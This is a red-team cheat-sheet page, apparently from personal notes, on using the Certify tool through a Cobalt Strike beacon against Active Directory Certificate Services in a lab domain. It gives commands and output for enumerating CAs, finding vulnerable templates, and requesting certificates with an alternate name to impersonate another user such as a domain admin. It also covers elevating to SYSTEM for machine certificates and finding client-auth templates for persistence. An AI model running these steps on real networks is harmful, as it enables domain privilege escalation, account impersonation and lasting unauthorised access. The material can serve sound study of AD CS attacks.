 # Certify

## [[Misconfigured Certificate Templates]]
Get certificat details
``````beacon
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe cas

[*] Root CAs

 Cert SubjectName              : CN=ca-1, DC=evil, DC=corp
 Cert Thumbprint               : 7F8A1EFB7A50E2D1DE098085301926AA13AE0A71
 Cert Serial                   : 31AC83C6678F28994CFB58207C9FB668
 Cert Start Date               : 2/25/2022 11:29:14 AM
 Cert End Date                 : 2/25/2047 11:39:08 AM
 Cert Chain                    : CN=ca-1,DC=evil,DC=corp

[*] Enterprise/Enrollment CAs:

 Enterprise CA Name            : ca-1
 DNS Hostname                  : dc-1.evil.corp
 FullName                      : dc-1.evil.corp\ca-1
 Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
 Cert SubjectName              : CN=ca-1, DC=evil, DC=corp
 Cert Thumbprint               : 7F8A1EFB7A50E2D1DE098085301926AA13AE0A71
 Cert Serial                   : 31AC83C6678F28994CFB58207C9FB668
 Cert Start Date               : 2/25/2022 11:29:14 AM
 Cert End Date                 : 2/25/2047 11:39:08 AM
 Cert Chain                    : CN=ca-1,DC=evil,DC=corp

 Enterprise CA Name            : ca-2
 DNS Hostname                  : dc-2.edu.evil.corp
 FullName                      : dc-2.edu.evil.corp\ca-2
 Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
 Cert SubjectName              : CN=ca-2, DC=edu, DC=evil, DC=corp
 Cert Thumbprint               : 2D0349C77D35808E35A7C6815CF37B51D9A5D431
 Cert Serial                   : 64000000067ED180604220703C000000000006
 Cert Start Date               : 3/1/2022 10:45:07 AM
 Cert End Date                 : 3/1/2024 10:55:07 AM
 Cert Chain                    : CN=ca-1,DC=evil,DC=corp -> CN=ca-2,DC=edu,DC=evil,DC=corp
``````

## Find vulnerable certificates
``````beacon
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable
``````

## Request certificate for user
This configuration allows any domain user to request a certificate for any other domain user (including a domain admin), and use it to authenticate to the domain.  Request a certificate.
``````beacon
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-1.evil.corp\ca-1 /template:VulnerableUserTemplate /altname:nglover

[*] Action: Request a Certificates

[*] Current user context    : EDU\patrick
[*] No subject name specified, using current context as subject.

[*] Template                : VulnerableUserTemplate
[*] Subject                 : CN=Isabel Yates, CN=Users, DC=evil, DC=corp
[*] AltName                 : nglover

[*] Certificate Authority   : dc-1.evil.corp\ca-1

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 4

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA7+QJhT7SgrP2SLWI7JqilriLBFjGRgob7sK6Gt8/EN4ODCqA
[...snip...]
EZCgtNFHJpynmPVNEcocncFPtV1hskXIElcwer/EdIROOW+qZhan
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIGKzCCBROgAwIBAgITIQAAAAJ1qRjA3m3TOAAAAAAAAjANBgkqhkiG9w0BAQsF
[...snip...]
Xm58FnNpAvwXQi1Vu+xIdtpRSGsnl6T6/TYwJlhKqMEU9mRfgaWXgLS+HdS++aw=
-----END CERTIFICATE-----

[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

Certify completed in 00:00:16.3844085
``````

## Request certificate for machine
The `/machine` parameter tells Certify to auto-elevate to SYSTEM and assume the identity of the machine account (for which you need to be running in high-integrity).
``````beacon
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.edu.evil.corp\ca-2 /template:Machine /machine
``````

## [[User & Computer Persistence]]
Find all certificates that permit client auth
To limit the volume of output, we can only return templates from the CA in our current domain, using `/ca:dc-2.edu.evil.corp\ca-2`

Requirements (default):
- Authorized Signatures Required: `0`
- Enrollment Rights: `domain\Domain Users`
- Validity Period: `1 year`

``````
beacon> getuid
[*] You are EDU\patrick

beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /clientauth
``````



```meta
requirements: 
results: 
oss: #win
source: https://github.com/GhostPack/Certify
description: Used to query certificate information for [[Misconfigured Certificate Templates]]
```
